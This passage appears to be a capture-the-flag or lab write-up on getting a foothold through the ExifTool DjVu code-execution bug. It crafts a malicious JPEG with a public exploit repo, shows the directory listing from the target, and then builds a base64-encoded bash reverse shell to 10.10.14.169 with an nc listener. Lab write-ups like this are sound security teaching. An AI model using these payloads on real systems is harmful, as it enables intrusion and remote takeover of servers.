 "Exiftool is a tool and library made in Perl that extracts metadata from almost any type of file."

"ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images."

## Foothold

We will use the [OneSecCyber/JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE) GitHub repo to exploit this vulnerability.

Let's follow the commands in the repo to create the malicious image:

```
git clone https://github.com/OneSecCyber/JPEG_RCE.git
cd JPEG_RCE
exiftool -config eval.config runme.jpg -eval='system("ls -la")'
```

Uploading the newly created `runme.jpg` image to the `dev01` subdomain produces the following output:

```
total 36
drwxr-xr-x 7 root www-data 4096 Aug 28 08:43 .
drwxr-xr-x 4 root root     4096 Oct 18 14:27 ..
drwxr-xr-x 2 root www-data 4096 Aug 28 08:39 assets
-rw-r--r-- 1 root www-data   72 Aug 28 08:39 composer.json
drwxr-xr-x 2 root www-data 4096 Aug 28 08:39 css
-rw-r--r-- 1 root www-data 2786 Aug 29 12:15 index.php
drwxr-xr-x 2 root www-data 4096 Aug 28 08:39 lib
drwxrwxr-x 2 root www-data 4096 Feb 26 19:10 uploads
drwxr-xr-x 3 root www-data 4096 Aug 28 08:39 vendor
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Copyright                       : 0
Image Width                     : 245
Image Height                    : 368
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
```

So, we have arbitrary command execution. Now, let's use a reverse shell payload instead. We will use the following reverse shell: `bash -i >& /dev/tcp/10.10.14.169/52427 0>&1`. We encode this to base64 to remove illegal characters with `echo -n "bash -i >& /dev/tcp/10.10.14.169/52427 0>&1" | base64` to get `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvNTI0MjcgMD4mMQ==`. So, start a listener with `pwncat` or netcat with `nc -nvlp 52427`. Then, create the malicious image with `exiftool -config eval.config runme.jpg -eval='system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvNTI0MjcgMD4mMQ== | base64 -d | bash")'`.
